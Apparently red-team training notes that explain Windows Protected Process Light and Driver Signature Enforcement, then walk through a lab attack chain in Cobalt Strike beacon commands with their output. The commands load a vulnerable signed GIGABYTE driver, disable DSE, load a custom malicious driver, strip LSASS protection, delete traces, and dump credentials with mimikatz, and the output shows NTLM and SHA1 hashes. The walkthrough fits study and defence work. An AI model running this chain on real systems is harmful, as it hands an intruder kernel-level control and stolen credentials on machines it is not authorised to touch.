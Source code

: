 
### Protected Process
- **Protected Process** (PP) and **Protected Process Light** (PPL) is a relatively new mechanism on Windows which was first designed as protection for DRM (Digital Rights Management).  The idea was to allow media players to read Blu-Ray discs, but not copy the content.  It worked fundamentally by limiting the access you could obtain to a protected process, such as `PROCESS_QUERY_LIMITED_INFORMATION` or `PROCESS_TERMINATE`, but not `PROCESS_VM_READ` or anything else that would allow you to circumvent the DRM requirements.
- Then this concept is used for protecting other processes like **LSASS**. We won't be able to get a handle to **LSASS** 
    ![pp](/images/pp-1.png)
- It can be enforced by the Windows Kernel, not by **AVs** or **EDRs**
- We can use [**ppenum**](https://github.com/rasta-mouse/PPEnum) to check if the process is a protected process, can also be used from CobaltStrike.
- It shows here that the **LSASS** is a PPL with **Signer LSA**
    ![pp-2](/images/pp-2.png)
- The kernel considers the procedence levels:
    - **PP** processes can obtain a handle to other **PP** or **PPL** processes as long as they have the same signer.
    - **PPL** processes can obtain a handle to other **PPL** processes but not **PP** process as long as they have the same signer.

### DSE
**Driver Signature Enforcement**  is a security feature implemented in modern Windows operating systems, **including Windows Vista and later versions**. Its primary purpose is to enhance system security by ensuring that only digitally signed drivers are loaded into the Windows kernel.

When a driver is developed and signed by a legitimate software publisher, it means that the driver's code has been verified and approved by the publisher, and any modifications to the driver can be traced back to that publisher. This helps prevent the loading of malicious or unauthorized drivers that could potentially compromise the stability and security of the operating system.

**How Driver Signature Enforcement works**:

1. **Unsigned Drivers**: By default, Windows will only load drivers that are digitally signed. If an unsigned driver is attempted to be loaded, the system will prevent it from loading and display a warning to the user.
2. **Test Signing Mode**: For development and testing purposes, Windows allows users to enable a "Test Signing Mode," which relaxes the driver signature enforcement requirement. In this mode, unsigned drivers can be loaded, but a watermark will appear on the desktop indicating that test signing is enabled.
3. **Secure Boot**: On systems with UEFI (Unified Extensible Firmware Interface) and Secure Boot enabled, the firmware verifies the digital signature of the operating system and its components, including drivers, during boot. This adds an extra layer of security by preventing the loading of unsigned or tampered components.
<Callout type="info" emoji="👻">
If we really really really want to run unsigned drivers, we can disable it of course. but put in mind that this is a high risk operation as the **DSE** is a very important security control 
1. Restart the computer.
2. As the computer restarts, press the "F8" key repeatedly before the Windows logo appears.
3. Select **Disable driver signature enforcement** from the advanced boot options menu.
</Callout>

Trying to load an unsigned driver 
    ```bash copy filename="beacon>"
    # upload the driver to the target machine
    beacon> cd C:\Windows\System32\drivers
    beacon> upload C:\Tools\RedOctober\RedOctober.sys

    # To run the driver we should create and run a kernel-mode service
    beacon> run sc create redoct type= kernel binPath= C:\Windows\System32\drivers\RedOctober.sys
    ```

    and as expected, It won't run 
    ![pp-3](/images/pp-3.png)

### DSE Bypass 
- **User Land Exploits** They come and go, such as [**PPLDump**](https://github.com/itm4n/PPLdump) which depends on **CVE-2022-07-24**. 
- **Kernel Land Exploits (Drivers)** .. the guaranteed way 👻
    - There are some tools that can do that like [**PPLKiller**](https://github.com/RedCursorSecurityConsulting/PPLKiller), [**mimidrv**](https://github.com/gentilkiwi/mimikatz/tree/master/mimidrv). or we can write our own custom driver.
        <Callout type="info" emoji="👻">
        Note that elevating from a local admin into the kernel is not a security boundary, so this is not seen as a serviceable vulnerability by Microsoft. However, you cannot load drivers that are not legitimately signed unless **Windows Test Signing mode** is **enabled**
        </Callout>
        
      

    - Bypassing the **DSE** (Digital Signature Enforcement)
        - First off, we need an arbitrary kernel memory write primitive, A common way to achieve that is by loading a known vulnerable (yet legitimately signed) driver, we can find such drivers in [**LOLDrivers Project**](https://www.loldrivers.io/)
        - Using the GIGABYT driver 

            ``` bash copy filename="beacon"
            beacon> cd C:\Windows\System32\drivers
            beacon> upload C:\Tools\cobaltstrike\gdrv\gdrv.sys
            beacon> run sc create gdrv type= kernel binPath= C:\Windows\System32\drivers\gdrv.sys
            beacon> run sc start gdrv

            SERVICE_NAME: gdrv 
                    TYPE               : 1  KERNEL_DRIVER  
                    STATE              : 4  RUNNING 
                                            (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            ```
        - **DSE** is controlled by a region of kernel memory that is guarded by **Kernel Patch Protection (KPP)**. so As we'll be executing our commands through the loaded driver, Our commands will have the kernel level of permissions, so now we can disable the **DSE**
        - To interact with a loaded driver, we need to call the **IOCTLs** that It exposes to the **userland** We have a BOF and an aggressor script `gdrv.cna` to easily do so
        <Callout type="info" emoji="👻">
        **IOCTL** stands for "Input/Output Control." An *IOCTL* is a mechanism that allows user-mode applications or higher-level components of the operating system to communicate with and control kernel-mode device drivers. It enables communication between user-mode code and kernel-mode code **by passing control codes and data buffers through a system call.**
        </Callout>
        - So, now disable the **DSE**, At first, we should load the `gdrv.cna` aggressor script which contains the `enable_dse` and `disable_dse` aliases
            ```bash copy filename="beacon"
            beacon> disable_dse
            [+] DSE disabled
            ```
        - Run our  malicious driver 
            ```bash copy filename="beacon" 
            
            beacon> cd C:\Windows\System32\drivers
            beacon> upload C:\Tools\RedOctober\RedOctober.sys
            beacon> run sc create redoct type= kernel binPath= C:\Windows\System32\drivers\RedOctober.sys 
            beacon> run sc start redoct

            SERVICE_NAME: redoct 
            TYPE               : 1  KERNEL_DRIVER
            S   TATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            ```
        - Now Import the `redoc.cna` aggressor script which contains the  `unprotect_process` alias
        -  To prevent a **BSOD** (Blue Screen of Death) situation 😅, re-enable DSE as soon as possible
            ```bash copy filename="beacon"
            beacon> enable_dse
            [+] DSE enabled
            ```
        - Now, there is no need for our original driver **GIGABYTE** as of now we successfully loaded ours. so unload and remove it 
            ```bash copy filename="beacon"
            beacon> run sc stop gdrv
            beacon> run sc delete gdrv
            beacon> rm gdrv.sys
            ```
        
        Now It's time to dump  **LSASS** for instance
            - Because protected processes are hierarchical, there are two ways to tackle this.
                - Remove the protection level from **LSASS**.
                - Elevate the protection level of a process we control to be greater than **LSASS**.
            - Because **Mimikatz** in CobaltStrike is **fork & run**, it's a little easier to just remove the protection from **LSASS**. We got a prepared a BOF and aggressor script to call the correct **IOCTL** from our redoc driver.  The command is simply `unprotect_process <pid>`.

                ```bash copy filename="beacon"
                beacon> ppenum 652
                [*] Running PPEnum against PID 652

                Type   : PsProtectedTypeProtectedLight
                Signer : PsProtectedSignerLsa

                beacon> unprotect_process 652
                [+] host called home, sent: 2498 bytes

                beacon> ppenum 652
                [*] Running PPEnum against PID 652

                Type   : PsProtectedTypeNone
                Signer : PsProtectedSignerNone
                ```
            - Now, **mimikatz** works like magic
                ```bash copy filename="beacon"
                beacon> mimikatz !sekurlsa::logonpasswords

                Authentication Id : 0 ; 1415530 (00000000:0015996a)
                Session           : RemoteInteractive from 2
                User Name         : bturner
                Domain            : ACME
                Logon Server      : DC
                Logon Time        : 5/16/2023 3:05:35 PM
                SID               : S-1-5-21-2006696020-36449419-3390662055-1106
                    msv :	
                    [00000003] Primary
                    * Username : bturner
                    * Domain   : ACME
                    * NTLM     : 1804bfd7e057f1b37d5bba093c594d1e
                    * SHA1     : da4585eb8811a5a291ff1c61603b42cc59996079
                    * DPAPI    : 12944985316c14d13757dbab27ab0f24
                ```